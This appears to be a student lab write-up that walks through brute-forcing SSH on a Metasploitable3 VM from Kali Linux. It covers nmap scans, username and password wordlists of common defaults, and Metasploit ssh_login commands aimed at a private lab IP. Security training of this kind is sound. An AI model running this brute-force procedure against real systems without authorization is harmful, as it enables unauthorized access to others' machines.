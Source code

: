 # Phase 1: Setup and Compromise the SSH Service

## Task 1.1: Compromise the SSH Service Using Metasploit

---

## 🎯 Objective
The goal of this task is to **gain unauthorized SSH access** to the victim machine (Metasploitable3) by performing a **brute-force attack** using **Metasploit**. We'll use the Metasploit module `auxiliary/scanner/ssh/ssh_login` to discover valid login credentials.

---

## 🖥️ Environment Setup

- **Attacker Machine**: Kali Linux 
- **Victim Machine**: Metasploitable3 
- **Target Service**: SSH
- **Target IP Address**: `192.168.56.102`
- **SSH Port**: 22 (default)

---

## 🔹 Step 1: Identify Target IP Address

On the victim machine (Metasploitable3), run the following command to get the IP address:
```bash
ifconfig
```


📸 Screenshot:

![Victim IP Address](https://github.com/jalsayid/Security-project/blob/dc3eb3a50f16f591446ceccfcf2ff306de2c5ca3/Phase1/screenshots/ip%20address%20of%20metasploitable%203%20(1).png)

---

## 🔹 Step 2: Test Connectivity

On the attacker machine (Kali Linux), we test if the victim machine is reachable over the network. This is done using the `ping` command to ensure that packets can be sent and received from the target IP.

```bash
ping 192.168.56.102
```


📸 Screenshot:

![test connectivity](https://github.com/jalsayid/Security-project/blob/983fe310f387ed02dc4abba13caba27e241a72da/Phase1/screenshots/testing%20VM%20connectivity%20from%20attacker%20(kali).png)

---

## 🔹 Step 3: Create Username and Password Files

Before running the brute-force attack, we need to prepare two text files:
- One containing possible usernames.
- One containing possible passwords.

These files will be used by Metasploit's `ssh_login` module.

Example content for `username` file:
```bash
msfadmin
admin
root
user
test
postgres
ubuntu
kali
vagrant
guest
oracle
administrator
ftp
support
webadmin
sysadmin
backup
mysql
pi
john
```

Example content for `password` file:
```bash
msfadmin
admin
123456
password
12345
123456789
12345678
1234
1234567
1234567890
admin123
root
toor
kali
guest
letmein
qwerty
abc123
111111
123123
vagrant
welcome
iloveyou
password1
123qwe
1q2w3e4r
000000
passw0rd
dragon
monkey
loveme
qwertyuiop
```


📸 Screenshot:

![test connectivity](https://github.com/jalsayid/Security-project/blob/fc2e81dd5e1a870890534e157783733ea46e9bea/Phase1/screenshots/files.png)

---

## 🔹 Step 4: Perform a Basic Nmap Scan

To check which ports are open on the victim machine, we start with a basic Nmap scan from the attacker machine (Kali Linux). This helps us discover services like SSH running on the target.

```bash
nmap 192.168.56.102
```

📸 Screenshot:

![nmap](https://github.com/jalsayid/Security-project/blob/83631ae4769ad8e04f964d0a4d6c37bc944ce80a/Phase1/screenshots/nmap.png)

---

## 🔹 Step 5: Perform a Detailed Nmap Scan with `-A`

After confirming that port 22 (SSH) is open using a basic scan, we run a detailed Nmap scan to gather more information about the services and operating system running on the victim machine.

This helps confirm the SSH version and identify the system fingerprint.

```bash
nmap -A 192.168.56.102
```

📸 Screenshot:

![nmap a](https://github.com/jalsayid/Security-project/blob/83631ae4769ad8e04f964d0a4d6c37bc944ce80a/Phase1/screenshots/nmap%20-a.png
)

## 🔹 Step 6: Start Metasploit and Load the SSH Login Module

Now that we’ve confirmed the SSH service is running on the victim, we start Metasploit on Kali Linux to launch the brute-force attack.

Start Metasploit:
```bash
sudo msfconsole
```

Search for the SSH login scanner module:
```bash
search ssh_login
```

From the list of matching modules, we will use the one for SSH login:
```bash
use 0
```

📸 Screenshot:

![search](https://github.com/jalsayid/Security-project/blob/5d4b10f49c23ea8938e5bdc0282f657a2d581f3e/Phase1/screenshots/start%20metasploit%20and%20search%20(1).png)

---

## 🔹 Step 7: Configure and Run the Exploit

Once the SSH login module is loaded in Metasploit, we configure the necessary options to launch the brute-force attack using our `username` and `password` files.

Set the required parameters:
```bash
set rhosts 192.168.56.102
set user_file Desktop/username
set pass_file Desktop/password
set verbose true
set stop_on_success true
```
And then we run the exploit:
```bash
exploit
```

📸 Screenshot:

![exploit](https://github.com/jalsayid/Security-project/blob/fb682b5fb6b259664e036a31aa080a29f03a578f/Phase1/screenshots/exploit2.png)












